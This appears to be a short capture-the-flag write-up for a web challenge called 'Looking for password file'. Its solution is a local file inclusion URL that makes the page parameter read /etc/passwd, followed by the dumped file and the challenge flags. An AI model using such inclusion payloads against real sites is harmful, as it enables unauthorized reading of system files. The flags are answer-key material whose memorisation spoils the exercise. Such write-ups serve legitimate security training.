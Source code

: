 <h1>Looking for password file</h1>
<h3>Description</h3>
<label>
http://challenges.ringzer0team.com:10075/?page=lorem.php
FLAG-MeCXGBsrLlYtdxlxSbumtUbb4J
</label>
<h3>Solution</h3>
<u>http://challenges.ringzer0team.com:10075/?page=/etc/passwd</u>
<pre>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:MailingListManager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:GnatsBug-ReportingSystem(admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:FLAG-zH9g1934v774Y7Zx5s16t5ym8Z:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
syslog:x:102:105::/home/syslog:/bin/false
</pre>
<h3>Flag</h3>
<pre>
FLAG-zH9g1934v774Y7Zx5s16t5ym8Z
</pre>
